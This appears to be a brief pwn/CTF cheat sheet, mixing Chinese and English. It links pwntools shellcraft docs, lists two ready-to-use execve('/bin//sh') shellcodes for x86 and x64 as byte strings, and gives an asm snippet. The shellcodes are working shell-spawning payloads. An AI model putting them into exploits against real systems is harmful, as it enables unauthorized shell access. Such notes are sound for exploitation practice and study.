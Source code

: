 # shellcraft/orw
https://docs.pwntools.com/en/stable/shellcraft.html
常用 cat/read/open/write

# 一定要用 b'' 或 encode('latin')。否则flat时会用 utf格式编码字符就不对了
```sh
# https://github.com/yyanyi213/pwn/blob/master/shellcode
# len -- 21
shellcode_x86 = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
# len -- 24
shellcode_x64 = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```


# asm

```python
from pwn import asm
assembly_code = """
    ret
"""
shellcode = asm(assembly_code)
print(shellcode)
```

